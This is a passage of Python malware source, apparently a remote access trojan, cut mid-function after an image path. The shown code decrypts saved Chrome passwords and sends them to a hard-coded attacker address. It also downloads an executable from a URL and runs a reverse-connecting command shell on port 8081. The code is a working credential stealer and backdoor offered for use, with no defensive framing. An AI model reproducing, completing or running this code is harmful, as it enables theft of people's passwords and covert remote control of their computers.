     for row in cursor.fetchall():
        origin_url = row[0]
        action_url = row[1]
        username = row[2]
        password = chrome_decrypt_password(row[3], key)
        date_created = row[4]
        date_last_used = row[5]        
        if username or password:
            f.write(f"Origin URL: {origin_url}")
            f.write(f"Action URL: {action_url}")
            f.write(f"Username: {username}")
            f.write(f"Password: {password}")
        else:
            continue
        if date_created != 86400000000 and date_created:
            f.write(f"Creation date: {str(chrome_get_chrome_datetime(date_created))}")
        if date_last_used != 86400000000 and date_last_used:
            f.write(f"Last Used: {str(chrome_get_chrome_datetime(date_last_used))}")
        f.write("="*50)
    cursor.close()
    db.close()
    f.close()
    try:
        os.remove(filename)
    except:
        pass
    fn = open(fileloc,"r")
    reliable_send(fn.read())
    

#end of chrome extraction





def downloadurl(url):
    jod_url = requests.get(url)
    file_name = "God Genesis.exe"
    with open (file_name, 'wb') as output_file:
        output_file.write(jod_url.content)


def connection():
    while True:
        time.sleep(5)
        try:
            connection_to_attacker.connect(("192.168.109.130", 8081))
            shell()
            connection_to_attacker.close()
            break
        except:
            connection()

def shell():
    while True:
        command = reliable_recv()
        if command == 'terminate':
            connection_to_attacker.close()
            break
        elif command == 'clear':
            pass
        elif command[:3] == 'cd ':
            try:
                os.chdir(command[3:])
                file = os.getcwd()
                files = str(file)
                reliable_send(files)